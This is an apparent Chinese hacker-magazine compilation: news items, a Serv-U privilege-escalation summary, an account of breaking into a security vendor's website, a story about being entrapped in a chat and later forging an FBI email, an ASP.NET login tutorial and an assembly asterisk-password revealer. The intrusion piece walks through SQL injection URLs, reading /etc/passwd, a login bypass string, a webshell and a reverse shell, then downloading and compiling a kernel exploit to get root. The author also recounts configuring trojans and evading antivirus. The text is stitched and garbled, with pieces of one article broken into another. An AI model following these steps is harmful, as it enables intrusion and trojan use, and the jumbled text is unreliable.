就现在的情况看，RedHat 暂时还没发布官方补丁，貌似也没有什么临时修复方案，系统管理员唯一能做的就是等待，再等待！

我想 Linux 内核的开发团队需要考虑引入微软的 SDL 安全开发生命周期，以增强 Linux 内核的安全性，否则用户用着真是提心吊胆。

> **风飘点评：** Linux 内核爆个高危漏洞还真不容易，一个月内连爆两个，真是可以让小菜们好好庆祝了。不知道这次你的“免杀”又多了几只上品鸡？这个机会可真的不多啊，抓住哦。

# 4、消息称中国电信也将开启 Android 平台

这是一场谷歌与苹果之间的战争，国内的三大运营商则因为各自利益的驱使，深深陷入其中。一方面，苹果与联通达成协议，iPhone 即将登陆中国；另一方面，中国移动 OMS 操作系统机型 oPhone 也进入了上市倒计时阶段。最近从手机制造商内部获悉，最先推出的两款 GSM 网络 oPhone——戴尔 MINI3i 和多普达 A6188——已进入量产铺货阶段。至于中国电信，虽然移动业务起步最晚，却获得了最快的用户增速，然而到目前为止，中国电信也还未能拿出一款可以与 iPhone、oPhone 一较高下的产品。

不过从深圳的一家手机制造商侧面证实了一则消息，中国电信或采取和中国移动类似的战略，使用 Android 平台来吸引手机制造商。相关人员表示：“微软 WinCE 或 Windows Mobile 都需要软件使用费，接下来我们生产的 CDMA 手机将搭载 Android 操作系统，成本可直接节省 10–30 美金。”

> **风飘点评：** 当初中国移动让小编我抱憾不已，现在电信也将开启 Android 平台，春天到了啊！想当初 G1 问世的时候，天天盼着想买一个，可就算买了，在中国也是半废品，应有的功能用不了。现在好了，我们终于有机会体验机器人的冲击了。

（部分消息来自：Linux 伊甸园）


# 四、写在最后

针对这次提权，我总结了以下几点：

- Serv-U 提权时，即使它没有提供 FTP 服务也是可以利用的，我们可以通过建立域来实现，但域的端口号不能与已有的端口号发生冲突。
- 创建的域如果不用 21 端口的话，很可能会在登录时出现错误，这时可以采用 PHP 提权工具发起 FTP 命令进行提权。
- 不管是创建用户还是执行 FTP 命令，涉及到 IP 地址的地方一定要注意。如果创建的域为 0.0.0.0:21，创建用户和执行 FTP 命令的 IP 可以不用过多考虑；如果创建的域为 211.*.*.155:21，创建用户和执行 FTP 命令时就要与其一致。
- 如果 Web 空间支持 PHP 的话，尽量采用 PHP 提权工具，因为它有回显，可以知道命令是否执行成功。

不少朋友都遇到过 Serv-U 提权不成功的情况，我把它们简单分为两种：

一种会先新建一个域，然后创建用户、执行 FTP 命令（如：大部分 ASP 木马集成的提权工具）。由于要创建域，这时要确保服务端口号没有被占用，一般工具都默认使用 21 端口，如图 6 所示，而大多数情况下，Serv-U 正在此端口提供服务，因此提权不能成功。

另一种是在原有域的基础上创建用户、执行 FTP 命令（如：“我非我”的 PHP 版 Serv-U 提权工具）。

这时候要确保域已经存在，如果服务器的域为 211.*.*.155:21，工具在默认情况下创建用户用的是 0.0.0.0，执行命令发送数据地址为 127.0.0.1，这时提权也不会成功。

至于这台服务器，估计管理员曾经用的是 Serv-U，后来改用了 Microsoft FTP，于是就把 Serv-U 的域都停用了，并把安装目录的访问权限进行了严格设置。殊不知，这对 Serv-U 提权毫无影响，打开的 43958 端口 + 没有修改的默认口令，对于权限提升，足矣！


Serv-U 的提权方法直到 6.4 版本时依旧可行，个人认为如果 Serv-U Admin.exe 在对 Serv-U Daemon.exe 进行管理时采用 SSL 加密的方式，应该会安全很多。最近 Serv-U 7.0 也出了提权方法，有兴趣的朋友可以去研究。最后附上一个自己编写的 PHP 提权小工具，添加了几个功能，希望大家能够喜欢。

> **编辑点评：** 非常不错的实战经验和经验总结，并更深入地对 Serv-U 提权进行了分析和思考。


# 入侵某防护软件官网加提权

从本文你可以看到简单的 Linux 下提权。

很喜欢“非安全”，看完后也想着自己来发篇文章，于是有了本文。

某晚和朋友一起研究一个链接，PHP 的注点，先用 1=1、1=2 方法检测，确认有漏洞。然后加上 '（单引号）测试，没被过滤！然后顺手删了后面的地址看一下主页，发现竟然是一个防护软件的官网，心里就虚了……不会被记录在案吧？反正是玩呢，大胆点！

```
order by 1
```

使用 order by 1 方法，正常，继续修改数字，最后确定是 11 列。接下来就是 union 了，语句：`http://www.xxx.cn/shownews.php?id=75 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11`，返回的页面里有 2 和 4。再把 2 和 4 换成 `user()`、`database()`、`version()` 等挨个看，账号是 root，版本是 4.x。

基本有用的函数都用完后，就想着 loadfile 了。因为是 4.x，没想着导出，只要能读就行了。继续测试，把 `c:/boot.ini` 直接提交，语句：`http://www.xxx.cn/shownews.php?id=75 and 1=2 union select 1,2,3,loadfile('c:/boot.ini'),5,6,7,8,9,10,11 from adminuser`，失败了。用小姿势换后还是不行，可能是 Linux 的原因，然后就把 `c:/boot.ini` 换成 `/etc/passwd` 试了一下，果然读出来了。既然能读，那铁定是 Linux。

这时朋友发来一个链接：`http://www.xxx.cn/shownews.php?id=75 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11 from adminuser`，他先进入猜解浪潮，然后就是把 2 和 4 换成 user、pass 之类的来猜列名，但都没结果。接着又发来一链接，是后台，主目录后加个 admin。这不重要，继续猜，uname 和 pwd 全不行。

实在是没办法了，在后台登录页按鼠标右键查看下源文件，发现提交的表单里用户名是 fuser，密码是 fpass。好啊，原来是这样，怪不得猜不着，心想这下总对了吧？马上测试下，依然错误……算了，不猜了，既然能 loadfile，直接读后台登录页的代码好了。但是不知道 Web 路径啊？先转转吧……

正好这几天倒腾了下 Linux，就读读 passwd、shadow 等文件，发现在 passwd 里有个 FTP 的用户，凭名称来看莫非是管理 Web 的？然后看后面的主目录，不在 HOME 下，而是一个带 httpd 的目录，自己试着读了下网站主页，谁知道还真读出来了。

这下不得了，读后台登录页吧，等 IE 下面那个进度条走完，在页面上按鼠标右键查看源文件，然后搜索“<?”，就到 LOGIN.PHP 的源码地方了。仔细瞅吧，找到 SQL 语句的地方，总得有比较账号密码正确与否的代码吧。

```
select * from adminuser where sqlusername='$user' and sqluserpass='$pass' ...
```

原来列名是 sqlusername 和 sqluserpass。搞到列名是意料中的事，不急着登录，先看看源码。往上看，user 变量直接是客户提交的 fuser 值，哈哈，标准的注入嘛，后台能注入，进去了不会有日志，不过 SQL 里会有日志。

相信大家在后台可以见到本次登录 IP，要是注进去，就只有 IIS 日志和 SQL 日志会记录，但是这俩日志会慢慢积累，一般不容易看不出来。但是你要是账号登录，当管理员登录时，总会显示你这次的 IP（其实这个还要看具体的 PHP 页面是怎么编写的）。

在后台账号里输入：`' or 1=1/*`，密码随便，提交后就进去了。里面可以直接传 PHP，然后拿了 shell。内核提权没玩过，就来练练手吧。

由于手上没有返 shell 的 PHPShell，只能网上找了份 Perl 源码，测试可用后传上去，返了个 shell。在返回的 shell 里输入 `uname -a` 看了一下内核版本，是 2.6.x（后边这个记不清了），然后在 milw0rm 上找了个利用代码（现在时间是晚上 23 点半左右）传到我 FTP 空间上。

接着在返回的 shell 里 wget 连接地址，就下到了服务器 /tmp

# 当黑客遭遇 FBI

从本文你可以看到一个简单的社工过程。

## 前言

这篇文章与以往的社会工程学文章相比，有一个共同点，那就是漂亮的社工技巧；但也有一个不同点，那就是漂亮的社工技巧被运用到作者身上。

要知道，被社工的滋味可不好受，更何况我是学社工的，把这种经历拿出来写成文字可是需要很大勇气的。时隔一年回想起来，仍觉社工之精妙，也怪我当初戒备不严。不过也觉得挺幸运的，至少算是见识到 FBI 了，不过这幸运也太另类了，事后我可紧张了好几天的。

## 故事开始

事发当天是 2008 年 8 月 21 日。那天上 QQ 看 shanker 在，就和他聊天。他发了一个地址过来叫我去看看，我一看，是 h4cky0u 上的文章。之前有好长一段时间访问不了 www.h4cky0u.org，以为网站关了，原来是换域名了，于是挺兴奋。进入网站需要登录？输入账号、密码，竟提示账号不存在或密码错误，找回密码也不成功。

这时才发现登录界面和以前不一样了，感觉要好看些，不过就是有点怪怪的。后来问 shanker 才知道，h4ck-y0u 是 h4ck-y0u，h4cky0u 是 h4cky0u，两者不一样，难怪我看管理员不一样了呢。

不过两者在界面上大体是一样的，看着也觉得亲切，就决定好好逛逛。注册了个用户，看见开了 IRC 频道，就用 mIRC 连了上去，想通过聊天打发下时间，要是能交个朋友也挺不错的，可以了解下其它地方的情况嘛，互通有无。

```
目录下（似乎应该先自己进 /tmp 里吧？）。然后就编译，却怎么都不成功。换伪代码试试，一看好几个 .c 文件，这下更蒙了。又到 milw0rm 去看看，谁知道新出现了一行字，正好是 Linux 内核 2.4/2.6.x 的提权代码，哈，这还真好，明摆着给我送代码吗。

抱着死马当活马医的心理，复制下来，保存为 2.c 文件，传到 FTP 空间里。在 shell 里来到 /tmp 目录，把 2.c 文件下到服务器上，GCC 编译一下：`gcc -o xxx 2.c`，然后执行 `./xxx`，谁知道直接就返回了一个 “#”。id 了一下，果然是 root！Linux 内核提权果然强悍，呆啊……
```

> **编辑点评：**
>
> 很多人一听到 Linux 服务器，立刻头就大了，不知道从哪里下手。通过本文你一定已经深刻意识到了，其实 Linux 服务器只是系统不同罢了，而一些服务上的漏洞利用方法和 Win 下是没有多少区别的，并不是一说起 Linux 服务器就只能溢出搞密码，世界是很宽广的。

## 社工就是从这里开始的

那时是上午（北京时间），美国那边是晚上，不过不算太晚，因此 IRC 频道里人还挺多的。有些人在讨论自己用的编程语言，也有不少说闲话的。Spider（就是那 FBI）发言了，说他知道突破下载软件 LimeWire Pro 的方法，给了个用户信息。我看了下，是个下载软件，他后来还公布了自己的 MSN，说想找人交流。那时频道里也有几个人想交流的，我就算其中一个。于是我和其它两三个人作出了回应，并在 MSN 里加了他。

当时我没开 MSN 的聊天记录功能，所以下面我只能通过回忆来叙述大体内容。

- 注：V 代表我，F 代表 FBI
- V：你好。（在 IRC 上对 F 说过：“在 MSN 上聊吧。”）
- F：你好。
- V：你来自哪里？
- F：意大利，你呢？
- V：我来自中国，你擅长足球么？
- F：是的，你怎么知道？
- V：我猜的，你有什么爱好。（我被他社工，却弄得我挺有社工快感的）
- F：玩 X-Box。（发起视频请求）
- V：我的摄像头很长时间没用，结果坏了。对了，你还知道什么好的关于 hacking 的网站么？
- F：我只知道 h4cky0u，你呢？
- V：我主要是在 h4cky0u 的论坛上转。
- F：你为什么 hack 呢？
- V：我只是对此很感兴趣。
- F：那个 LimeWire 怎么样？
- V：我还在下载。
- F：你的网速真慢。
- V：你肯定是服务器太远了吧，我换个网站下吧。
- F：换个？
- V：我去找个。（美国对版权查得很严，觉得我这话像外星人说的似的）
- F：对了，我有个问题。
- V：什么？
- F：我在配置 Poison Ivy，服务端就是上不了，你能帮我看看么？
- V：能发张截图过来吗？
- F：好的。（发了张截图，如图 1。）
- V：你填的 IP 好像有问题。另外，如果你是在内网的话，使用静态 IP 是连不上的，那样最好用个动态域名，你可以去申请个免费的。
- F：动态域名？
- V：……（一大段解释）
- F：我在外网，应该没问题。我怀疑我 IP 弄错了，怎么办？
- V：到 XXXXX（搜索到的一个显 IP 的网站）去看看。
- F：看到了，你能帮我测试下么？我保证我不搞破坏。
- V：好的。（开虚拟机中……）
- F：相信我，我发誓。
- V：我知道，我在开虚拟机，我一般都在虚拟机里面测试，有时闲着无聊自己控制自己，呵呵。
- F：我明白了。
- V：（开好了）发过来吧。（他发过来了，我运行）我运行了。
- F：没看见啊，你 IP 多少？
- V：XX.XX.XX.XX，没看到么？
- F：没啊。你能帮我配置下么？
- V：我不熟悉这个木马，没用过，现在许多木马都过不了主动防御。
- F：怎么？
- V：……（解释一番）
- F：那你用的是什么？
- V：PcShare，生成的木马体积很小。一个朋友给了我个会员账号，可以定期更新免杀的，省去了免杀的麻烦。
- F：我可以看一下么？
- V：当然可以，不过 PcShare 只有中文版的，没有英文版的。但是操作都很直观，可以参照按钮对应的图片进行理解，应该没什么问题。我可以帮你配置免杀的。（帮忙的心理弱点）
- F：（我发过去了）好的。
- V：我要去吃饭了，再见咯！
- F：嗯，再见。我知道我很菜，麻烦你了。
- V：没关系，很高兴认识你。
- F：我也是，再见啦！
- V：再见。

（我吃完饭，又上了）

- F：你怎么又上了？
- V：吃完了。（中间有一段聊天的内容忘记了）
- F：你有照片么？我想看看。
- V：有，我找找，放不见了。（开始找）
- F：我 n 岁，你呢？
- V：我差不多。
- F：你骗我！
- V：真的，待会儿看到照片你就会相信了。（天啊，这么明显我都没察觉到）
- V：（终于找到，发了一张很昏暗的）知道为什么昏暗么？因为你没给我发你的照片。
- F：我也找找，等下。
- V：好的。（好长一段时间过去了）
- F：你的 IP 被确认了。
- V：？
- F：我不是 Joe Romeo（他用的假名），我叫 Johnathon Hamick，为 FBI 工作，美国的。我对全程进行了录像，你还有什么要说的吗？
- V：没有了。
- F：You will be contacted soon（这句话记得特清楚）

（关机！大脑空白，想起电影里的 FBI——飞速出动，破门而入……）

第二天，我登录邮箱，看到一封邮件：

> Volunteer Johnathon Hamick IIDivision3II Case#266573.
> To Whom this may Concern,
>
> You have been added to predator/hacker anonymous. There are a couple of options for you.
> 1. Report any other predators that you know of (Including contact information.)
> Also formal apology.
> 2. Report any other hackers that you know of (Including contact information.)
> Also formal apology.
> 3. Report any websites pertaining to hacks. And a formal apology. Also your real name for verification.
>
> If you suceed in any of these options your case will be dropped and consider it as a lesson.
> If you do not cooperate with this your situation will increase. We have records of all chats and chats in MIRC. You also downloaded LimeWire Pro illegally. You also aided in creating Trojans and also sent a Trojan to the user. We suggest you cooperate. If you give us false information this will increase your charges. (Not being Cooperative will only get you in more trouble)
> We know you will cooperate.
>
> Sincerely,
> IIDivision3II
>
> http://www.fbi.gov
> http://www.cybercrime.gov/

没想到 FBI 竟然陷人于罪，还立案了。不过还好，那人只是个 Special Agent。去 FBI 的官方网站看了下，Special Agent 是志愿者性质的，网站上通缉了好多人。

我回复道：

> From: OrphousVBacchus
> Sent: Saturday, August 23, 2008 12:24 AM
> To: Joe Romeo
> Subject: RE: Volunteer Johnathon Hamick IIDivision3II Case#266573
>
> Hi,
>
> Now I have learned that what I did is not a simple matter. Actually, I have been interested in computer since I was in my primary school, where I learned to use Flash to make a simple animation.Then I was always highly said of by my teacher.And at that time, I dreamed to be a animator when I grow up. And since then, I have been learning how to make animation, from using Flash to 3dsMax. Now I try to learn Maya and Softimage. However, as time goes by, I found that there were too many animators and it would be hard for me to find a job of animator. By chance, when I talk with others, I was informed that there was a bookstore which sold a book about information security where one of my friend lived. I was very excited then. I bought it and I told myself I found a new choice of my future job---information security consultant. After that I tried my best to learn it. And I started to learn programming after a time. I met programming when I was in my primary school, but I didn’t learn it formally at that time.But I have been more and more interested in it since then.
>
> Well, of course, I will cooperate. My real name is Cheng Zitao. And here will tell you a site pertaining to hacking: www.h4ck--y0u.org. I usually visited it some time ago, but it seemed to have some trouble so it closed perhaps for some time. After that I visited www.h4cky0u.org by chance for their URLs are very similar. You can see that I haven’t registered my account on www.h4cky0u.org for long.
>
> Actually, I just want to find some friends share the same interests and practise my spoken English on the IRC channel. Well, after all, I made mistakes.
>
> Here I apologize sincerely. And if you want further cooperation, just feel free to contact me. As what I say above, my dream job is information security consultant. And I will be really glad to help, I hope we can be friends without all these matters, just sharing happiness of our difference life. I have many hobbies besides computer. I’m also very interested in religion, philosophy and classical music, and movies too.
>
> Yours,
>
> OrphousV

不一会儿又收到一封：

> Re: Volunteer Johnathon Hamick ||Division3|| Case#266573
> Cheng Zihao,
>
> Thank you for your cooperation Cheng Zihao. We will continue our investigation. In reference to your case, Case#266573 consider it dropped. If you are not willing to cooperate we will open the case at will.
>
> Your case is dorment for now and will stay dormant as long as you cooperate. Do you understand the seriousness of the American Government in order to restore peace in computer security?
>
> Sincerely,
>
> ||Division3||

后来我在论坛上看到他发了一张帖子，问大家来自哪里，有人回答不要告诉他，说他是 FBI 的，看来也许不只我一个人被社工了。

## 社工就这样结束了

事后我把情况告诉了 shanker，他加了那个 Special Agent 的 MSN，想会会他，不过那个 Special Agent 没有搭理。后来我在 shanker 的博客上看到他发的一篇日志，说 h4cky0u 被 FBI 关了，里面还有截图。图片上有一句文字：“Owned by Federal Bureau of Investigation.” 看来 FBI 的效率还挺高的，执法也很严。（不知道 h4cky0u 后来怎么又好了，并且也没遇到什么事）

2009 年大年三十那天晚上，我又将 FBI 的警告信改了下，把指控内容改成攻击 CIA，换个邮箱直接发给帕特大的 suck-o 中国区主席 funhoo 作为新年礼物。（对他心怀愧疚，不过现在想当初还可以伪造个 FBI 的地址的）

接着我就是日日等着回复啊，不过他好几个星期都没上。之后他看邮件的原始信息时才发现可疑，他就问了下一个他在美国安全机关工作的朋友，得到的回应是：“这是个把戏。如果真是那样，他们会直接联系你们国家的警方，然后让你们国家的警方直接去找你，而不是像这样发邮件。”

他告诉我这些的时候还不知道是我发的，我后来告诉了他，他最初还显得很冷静，不过后来貌似恐吓，结果就不必说了，当然是我被说了一通。

事情说完了，不过社工并没有完。下次将介绍我是如何对大名鼎鼎的 CORE Security 公司进行长达近一年的社工过程的。

到这里，文字本该完了，不过我还想写点感受。黑客到底是什么？我们曾一次又一次地探究这个问题。在某些人眼中，黑客被神化，而在某些人眼中，黑客就是非法入侵、盗取隐私并以此牟利的人。

不过归根到底，无非是个名称的问题。无论黑客被怎么定义，帽子下的人不会变。因此，对于一些媒体的炒作也好，抨击也罢，这个群体中的我们更需要一些淡定。

然而现实是，大部分人对黑客怀有误会。以前 funhoo 就告诉我，国家安全局的人曾误把他当黑客（他指的是灰帽子或黑帽子）进行调查，毕竟黑客这个概念总是在边缘徘徊，难以界定。不得不承认，这个群体中有些人靠卖漏洞牟利，毕竟利润太大了，一个系统漏洞有的可以卖到几百万美元。对这些人，我们应该嗤之以鼻。

在现实生活中，黑客这个群体里的人只是日常生活中平凡的人，我希望公众对这一群体有更正确的认识——他们既不该是罪犯，也不该是偶像。因此，遇见黑客，请道声“你好”。

**编辑点评：**
文章前段展现的是“被社工”的角度，而最后作者对黑客的一番评说，个人觉得才是本文的内涵所在。真正的黑客既不该是罪犯，也不该是偶像，所以，我也说声：黑客，你好。

# 从 0 开始学习 Asp.net（四）

从本文您可以了解及学习编写三层架构。

在上一节中我们了解了初级的 ADO.NET 技术，这节我们将通过一个用户登录的程序来了解在程序中该如何来应用 ADO.NET。

## 登录程序会涉及到哪些东西

一个很简单的用户登录程序需要两个文本框和两个按钮，用于提交和重置文本框中的内容。从程序的角度来讲的话，还需要凭证，用这个凭证来判断用户输入的用户名和密码是否合法。那么这就必须在数据库中建立一张用户表，这张用户表中存储着合法的用户名和密码。下面我们便一步一步来实现这个简单的小程序。

## 数据表的建立

```sql
use master -- 进入 master 数据库
go

create database UserDB -- 创建 UserDB 数据库
go

use UserDB
go

create table userinfo -- 创建表 userinfo
{
```

- 张宇说段子：编程是需要创造力的，下面来看看小朋友的创造力如何。选了几个经典的和大家一起分享：

- 老师：用指定题目进行造句。

- 1. 题目：其中  
  小朋友写：我的其中一只左脚受伤了。  
  老师批语：你是蜈蚣吗？

- 2. 题目：陆陆续续  
  小朋友写：下班了，爸爸陆陆续续地回家了。  
  老师批语：你到底有几个爸爸呀？

- 3. 题目：又……又……  
  小朋友写：我的妈妈又矮又高又胖又瘦。  
  老师批语：你的妈妈是变形金刚吗？

- 4. 题目：好吃  
  小朋友写：好吃个屁。  
  老师批语：有些东西是不能吃的。

- 5. 题目：先……再……  
  例如：先吃饭，再洗澡。  
  小朋友写：先生，再见！  
  老师批语：想象力超过了地球人的智慧。

- 6. 题目：况且  
  小朋友写：一列火车经过，况且况且况且况且况且况……  
  老师批语：我死了算了。

```sql
id int IDENTITY(1,1) PRIMARY KEY,
username varchar(50),
password varchar(50)
```

## 什么是三层架构

通常定义上的三层架构就是将整个业务应用划分为：表现层（UI）、业务逻辑层（BLL）和数据访问层（DAL）。区分层次的目的在于“高内聚、低耦合”的思想。

- 表现层（UI）：通俗地讲就是展现给用户的界面，即用户在使用一个系统时的所见所闻。
- 业务逻辑层（BLL）：针对具体问题的操作，也可以说是对数据层的操作，对数据业务逻辑进行处理。
- 数据访问层（DAL）：该层所做事务直接操作数据库，针对数据的增添、删除、修改、更新、查找等。

打开 VS2008，我们来建立三层架构，首先建立一个空白的解决方案，如图1所示。

接着在解决方案管理器中右键单击我们刚才建立的解决方案，选择新建项目，如图2所示。

依照上面的步骤重复建立类库 DAL 以及类库 BLL、Models 和需要建立的网站，添加方法和添加类库步骤一样。添加完成之后可以看到解决方案管理器如图3所示。

下面我们将添加项目之间的引用，因为只有这样才可以让整个程序互相关联起来。首先添加 DAL 层的引用，在解决方案管理器中，右键单击 DAL 项目，选择“添加引用”，如图4、图5所示。

单击添加 Models 层的引用，因为 DAL 层为数据操作层，所以只需要添加 Models（实体层）的引用即可。而 BLL 层则需要添加对 DAL 层以及 Models 层的引用，因为它会在项目中用到这两个层的内容。而网站项目则直接添加 BLL 层和 Models 层的引用，当生成网站的时候，VS 会在项目目录下生成 BIN 目录来放置被引用项目生成的 DLL 文件。

至此，我们的三层架构就算搭建完毕了，下面我们来进一步地配置。

## Web.config 中的配置

众所周知，很多 ASP.NET 的网站将一些配置，比如数据库的连接字符串等，保存在 Web.config 文件中，下面就让大家认识下什么是 Web.config，而 Web.config 的作用又是什么？

> Web.config 是一个 XML 文本文件，它用来储存 ASP.NET Web 应用程序的配置信息，可以出现在应用程序的每一个目录中。

当你通过 VS 新建一个 Web 应用程序后，默认情况下会在根目录自动创建一个默认设置的 Web.config 文件，所有的子目录都将继承它的设置。如果想修改子目录的配置，可以在该子目录下新建一个 Web.config 文件，它可以提供除从父目录继承以外的配置信息，也可以重写或修改父目录中定义的设置。在运行时对 Web.config 文件的修改不需要重启服务就可以生效。

下面我们就来看最基础的应用，将我们的连接字符串配置在 Web.config 中。打开 Web.config 文件，找到 `<connectionStrings/>`，直接替换成如下内容：

```xml
<connectionStrings>
  <add name="ConnectionString" connectionString="Data Source=.\SQLEXPRESS;Initial Catalog=userdb;Integrated Security=True"/>
</connectionStrings>
```

Add 节中，name 代表这个连接字符串的名称，而 connectionString 属性则是真正的连接字符串。

## 三层结构中 Models 层的基础代码

Models 层又称实体层，主要是因为这个层存放的全部是与数据库中表结构有关的对象，下面我们来为这个小程序写 Models 层的代码。

首先将 VS 自动生成的 class1.cs 改名为数据库中表的名字 userinfo.cs。

```csharp
private int id;
private string username;
private string password;
```

将数据库中对应的数据类型以及字段名声明到该类中，然后将光标放在每行声明上，按 Ctrl+R 及 Ctrl+E，将出现如图6所示的对话框。

单击确定即可生成如下代码：

```csharp
public int Id
{
    get { return id; }
    set { id = value; }
}
```

以此类推，最终代码请参考项目源代码。

## 三层结构中 DAL 层的基础代码

首先把解决方案管理器 DAL 层中的类 class1.cs 重命名为 DBHelper.cs，编写如下代码：

```csharp
private static string connectionString;

static DBHelper()
{
    connectionString = ConfigurationManager.ConnectionStrings["ConnectionString"].ConnectionString;
}
```

如果需要使用 ConfigurationManager 的话，就需要先添加 ConfigurationManager 的引用，如图7所示。之后如果出现如图8所示的情况，那么将光标移到 ConfigurationManager 上，在出现箭头所标注的红色小人矩形框上面直接按 Ctrl+F10 即可导入该命名空间。当然也可以将鼠标指针移动到红色小矩形上，这时会出现导入命名空间菜单，按照提示操作即可。

按 Ctrl+Shift+B 重新生成一次解决方案，确定没有错误产生，这样我们就可以进行方法的编写了，代码如下：

```csharp
/// <summary>
/// 静态方法，获得一个数据库连接实例
/// </summary>
/// <returns></returns>
public static SqlConnection GetConnection()
{
    SqlConnection conn = new SqlConnection(connectionString);
    conn.Open();
    return conn;
}
```

上面的方法是一个静态方法，所谓静态方法即为可以不通过实例化一个类就可以直接调用的方法（即不使用 new 实例化对象）。下面我们再新建一个 UserDAL 类，这个类用来写关于用户操作的一些方法，注意新建后应当把类的修饰符改为 public，允许任何类访问。

代码如下：

```csharp
/// <summary>
/// 验证用户登录的方法
/// </summary>
/// <param name="userinfo">用户登录时输入的账号密码组合的对象</param>
/// <returns>从数据库中匹配出的对象</returns>
public UserInfo ValidateUserLogin(UserInfo userinfo)
{
    SqlParameter[] param = new SqlParameter[] {
        new SqlParameter("@username", SqlDbType.VarChar, 50),
        new SqlParameter("@password", SqlDbType.VarChar, 50)
    };
    param[0].Value = userinfo.Username;
    param[1].Value = userinfo.Password;
    UserInfo returnUserInfo = null;
    SqlCommand cmd = new SqlCommand();
    cmd.CommandType = CommandType.Text;
    cmd.CommandText = "select * from userinfo where [username]=@username and [password]=@password";
    cmd.Parameters.AddRange(param);
    cmd.Connection = DBHelper.GetConnection();
    using (SqlDataReader reader = cmd.ExecuteReader(CommandBehavior.CloseConnection))
    {
        if (reader.Read())
        {
            returnUserInfo = new UserInfo();
            returnUserInfo.Id = (int)reader["id"];
            returnUserInfo.Username = (string)reader["username"];
            returnUserInfo.Password = (string)reader["password"];
        }
    }
    return returnUserInfo;
}
```

## 三层架构中 BLL 层的基础代码

首先仍然是将 class1.cs 文件更名为 UserBLL.cs，然后直接调用 DAL 层的方法并返回数据到 Web 层即可。

```csharp
public UserInfo ValidateUserLogin(UserInfo userinfo)
{
    return new UserDAL().ValidateUserLogin(userinfo);
}
```

## 表现层

下面我们开始实现表现层。aspx 页面代码略过，直接查看项目源代码，最重要的是登录按钮的后台代码。具体代码如下：

```csharp
protected void btnLogin_Click(object sender, EventArgs e)
{
    string username = this.txtUserName.Text.Trim();
    string password = this.txtPassword.Text.Trim();

    // 将用户的输入组装为对象
}
```

```csharp
UserInfo userinfo = new UserInfo();
userinfo.Username = username;
userinfo.Password = password;

// 调用 BLL 层的方法验证用户是否合法
// 直接根据用户的输入查询结果来返回判断是否存在
if (new UserBLL().ValidateUserLogin(userinfo) != null)
{
    Response.Write("登录成功！");
}
else
{
    Response.Write("登录失败！");
}
```

现在就实现了一个简单的三层架构的用户登录小程序。这样写的目的在于方便扩展应用程序，下一节我们仍然将在这个程序中进行更深入的扩展。若文章中有不清楚的地方，请查看附带的源代码进行分析。

> （文章中所涉及的相关代码及工具都已经收录在本期光盘）

# 编辑点评

通过对三层架构的分步描述，清楚地给出了相对应的功能及代码，这样的好处使得可扩展性大大增加。

# 汇编实现星号密码查看

从本文您可以了解 32 位汇编的语法及 API 的调用。

我们知道，用户在输入密码的时候都是以星号的方式来显示的，那么所谓的星号密码查看器，就是将用户输入的密码以明文来显示。今天我们就要来了解一下星号密码查看器的思路与程序编写！

首先使用 GetCursorPos 函数来获取鼠标的位置，这个函数的原型是 `BOOL GetCursorPos(LPPOINT lpPoint);`，这个函数里只有一个结构参数，这个结构分别用来表示鼠标的 X 与 Y 轴，该结构如下：

```c
typedef struct tagPOINT {
    LONG x;
    LONG y;
} POINT, *PPOINT;
```

这个函数的返回值是 BOOL，成功为非零，失败为零。接着使用 WindowFromPoint 函数来获得包含指定点的窗口句柄，这个函数的原型是 `HWND WindowFromPoint(POINT Point);`，也只有一个鼠标坐标 POINT 结构的参数，返回值是窗体句柄。然后使用 SendMessage 函数发送以下 Windows 消息：

- `EM_SETPASSWORDCHAR` // 设置密码字符
- `WM_PAINT = $000F` // 要求一个窗口重绘自己
- `WM_KILLFOCUS = $0008` // 失去焦点
- `WM_SETFOCUS = $0007` // 获得焦点后

好了，大家明白了思路与步骤之后，那么就来看看资源文件的代码：

```c
#include <C:\masm32\include\Resource.h>
#define DLG_HACKER 1
#define IDEND 3
#define ICO_MAIN 4
ICO_MAIN ICON "Main.ico"
```

```asm
DLG_HACKER DIALOG 100, 100, 210, 130
STYLE DS_MODALFRAME | WS_POPUP | WS_VISIBLE | WS_CAPTION | WS_SYSMENU
CAPTION "星号密码查看器"
FONT 9, "宋体"
{
    PUSHBUTTON "开始", IDOK, 45, 55, 50, 20
    PUSHBUTTON "结束", IDEND, 110, 55, 50, 20
}
```

以上的资源文件代码生成了一个对话框，对话框里有两个按钮，分别是“开始”和“结束”。最后再来看看主程序，代码如下：

```asm
.386
.model flat, stdcall
option casemap :none

include        C:\masm32\INCLUDE\windows.inc
include        C:\masm32\include\user32.inc
includelib     C:\masm32\lib\user32.lib
include        C:\masm32\include\kernel32.inc
includelib     C:\masm32\lib\kernel32.lib

DLG_HACKER equ 1
IDEND      equ 3
ICO_MAIN   equ 4

.data?
hInstance  dd ?

.data

.code
TimerProc proc hWnd, uMsg, iEvent, dwTime
    local p:POINT
    local h_edit:HANDLE
    invoke GetCursorPos, addr p
    invoke WindowFromPoint, p.x, p.y
    mov h_edit, eax
    invoke SendMessage, h_edit, EM_SETPASSWORDCHAR, 0, 0
    invoke SendMessage, h_edit, WM_PAINT, 0, 0
    invoke SendMessage, h_edit, WM_KILLFOCUS, 0, 0
    invoke SendMessage, h_edit, WM_SETFOCUS, 0, 0
    ret
TimerProc endp

WndProc proc uses ebx edi esi hWnd, wMsg, wParam, lParam
    mov eax, wMsg
    .if eax == WM_CLOSE
        invoke EndDialog, hWnd, NULL
    .elseif eax == WM_INITDIALOG
        invoke LoadIcon, hInstance, ICO_MAIN
        invoke SendMessage, hWnd, WM_SETICON, ICON_BIG, eax
    .elseif eax == WM_COMMAND
        mov eax, wParam
        .if ax == IDOK
            invoke SetTimer, hWnd, 1, 1000, addr TimerProc
        .elseif ax == IDEND
            invoke KillTimer, hWnd, 1
        .endif
    .else
        mov eax, FALSE
        ret
    .endif
    mov eax, TRUE
    ret
WndProc endp

start:
    invoke    GetModuleHandle, NULL
    mov       hInstance, eax
    invoke    DialogBoxParam, hInstance, DLG_HACKER, NULL, offset WndProc, NULL
    invoke    ExitProcess, NULL
end start
```

运行之后，我们打开一个输入框，输入 123456，里面显示的都是星号，如图1所示。现在打开刚编写的星号密码查看器，点击“开始”，再把鼠标放到文本框中，这时密码将以明文显示，如图2所示。

> （文章中所涉及的相关代码及工具都已经收录在本期光盘）

# 编辑点评

虽然不是什么高深的技术，作为 32 位汇编的入门文章还是不错的。

# 快码加编

